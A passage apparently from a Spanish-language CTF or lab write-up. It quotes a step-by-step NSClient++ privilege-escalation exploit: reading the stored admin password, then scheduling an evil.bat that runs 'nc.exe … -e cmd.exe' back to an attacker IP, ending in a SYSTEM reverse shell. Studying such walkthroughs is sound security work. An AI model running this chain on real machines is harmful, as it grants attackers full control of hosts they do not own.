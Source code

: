 	![26]
	
	El exploit contempla los siguientes pasos:
	
	```
	1. Grab web administrator password
	- open c:\program files\nsclient++\nsclient.ini
	or
	- run the following that is instructed when you select forget password
		C:\Program Files\NSClient++>nscp web -- password --display
		Current password: SoSecret

	2. Login and enable following modules including enable at startup and save configuration
	- CheckExternalScripts
	- Scheduler

	3. Download nc.exe and evil.bat to c:\temp from attacking machine
		@echo off
		c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

	4. Setup listener on attacking machine
		nc -nlvvp 443

	5. Add script foobar to call evil.bat and save settings
	- Settings > External Scripts > Scripts
	- Add New
		- foobar
			command = c:\temp\evil.bat

	6. Add schedulede to call script every 1 minute and save settings
	- Settings > Scheduler > Schedules
	- Add new
		- foobar
			interval = 1m
			command = foobar

	7. Restart the computer and wait for the reverse shell on attacking machine
		nc -nlvvp 443
		listening on [any] 443 ...
		connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
		Microsoft Windows [Version 10.0.17134.753]
		(c) 2018 Microsoft Corporation. All rights reserved.

		C:\Program Files\NSClient++>whoami
		whoami
		nt authority\system
	```
	
+ El primer paso es obtener la contraseña de administrador del sitio web (y que ya vimos que la página nos solicita), esto puede hacerse si nos vamos al directorio donde este se encuentra instalado y ejecutamos lo siguiente:

	```
		Ruta: C:\Program Files\NSClient++
		Comando: nscp web -- password --display
	```
